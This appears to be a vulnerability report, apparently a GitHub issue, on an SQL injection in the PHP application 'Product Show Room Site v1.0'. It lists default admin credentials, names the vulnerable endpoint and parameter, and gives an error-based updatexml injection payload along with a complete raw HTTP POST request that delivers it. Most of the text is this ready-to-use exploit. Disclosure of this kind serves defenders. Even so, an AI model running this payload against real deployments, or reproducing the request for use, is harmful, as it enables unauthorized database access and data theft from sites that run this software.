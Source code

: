# Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/classes/Master.php?f=delete_field

Vulnerability location: /psrs/classes/Master.php?f=delete_field, id

Current database name: hsrs_db ,length is 7

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /psrs/classes/Master.php?f=delete_field HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/171827427-6babd098-37df-44c7-8efc-19f05aadf738.png)
